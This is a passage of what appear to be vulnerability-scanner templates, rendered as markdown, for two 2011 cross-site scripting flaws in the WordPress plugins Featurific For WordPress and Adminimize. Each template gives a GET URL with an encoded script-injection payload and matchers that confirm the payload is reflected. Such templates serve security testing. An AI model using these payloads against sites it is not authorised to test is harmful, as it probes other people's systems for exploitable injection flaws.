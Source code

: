 **Type - status**
- status
    1. 200

**Type - word**
- part - header
- words
    1. text/html

---
# Featurific For WordPress 1.6.2 - Cross-Site Scripting
## Description
- A cross-site scripting vulnerability in cached_image.php in the Featurific For WordPress plugin 1.6.2 for WordPress allows remote attackers to inject arbitrary web script or HTML via the snum parameter.
- severity - medium
- tags - cve,cve2011,wordpress,xss,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/featurific-for-wordpress/cached_image.php?snum=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Adminimize 1.7.22 - Cross-Site Scripting
## Description
- A cross-site scripting vulnerability in adminimize/adminimize_page.php in the Adminimize plugin before 1.7.22 for WordPress allows remote attackers to inject arbitrary web script or HTML via the page parameter.
- severity - medium
- tags - cve,cve2011,wordpress,xss,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/adminimize/adminimize_page.php?page=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers
